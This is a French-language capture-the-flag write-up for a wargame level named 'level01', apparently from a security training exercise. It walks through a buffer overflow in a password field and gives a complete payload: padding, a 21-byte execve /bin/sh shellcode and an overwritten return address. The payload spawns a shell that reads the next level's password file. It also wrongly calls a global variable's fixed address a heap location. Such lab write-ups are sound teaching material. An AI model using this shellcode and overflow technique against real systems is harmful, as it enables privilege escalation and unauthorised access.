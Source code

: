 # level01

## Analyse du binaire

En inspectant le binaire avec `objdump -t ./level01`, on identifie une variable intéressante :  

a_user_name ```0x0804a040```


Cette variable est stockée sur la **heap**.  

En représentation **little-endian**, son adresse devient :  

```\x40\xa0\x04\x08```


---

## Étude du buffer overflow

Le champ `password` est vulnérable à un **buffer overflow**.  
Pour déterminer la taille nécessaire, on peut utiliser l’outil suivant :  

👉 [Wiremask Buffer Overflow Pattern Generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/)  

Résultat : le débordement survient après **80 caractères**.

---

## Stratégie d’exploitation

Le champ `username` est stocké sur la heap, à une adresse fixe.  
On peut donc y injecter un **shellcode** puis utiliser le débordement du `password` pour rediriger l’exécution vers ce shellcode.

### Paramètres à respecter

- Taille totale du champ `username` : **256 caractères**  
- Préfixe imposé : `"dat_wil"` (**8 octets**)  
- Taille du shellcode choisi : **21 octets**  
- Taille du padding : `256 - 8 - 21 = 227 octets`

---

## Shellcode utilisé

On peut réutiliser un shellcode classique pour exécuter `/bin/sh` :  
👉 [Source : Shell-Storm](https://shell-storm.org/shellcode/files/shellcode-575.html)

```asm
\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68
\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
```

Construction du payload
Username
```"dat_wil" + "\x90"*227 + <shellcode>```

Password
```"\x90"*80 + "\x40\xa0\x04\x08"```

Payload complet
```python -c 'print "dat_wil" + "\x90"*227 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x90"*80 + "\x40\xa0\x04\x08"' | ./level01```

Résultat

L’exécution de ce payload permet d’obtenir un shell avec les privilèges de level02.
```cat /home/users/level02/.pass```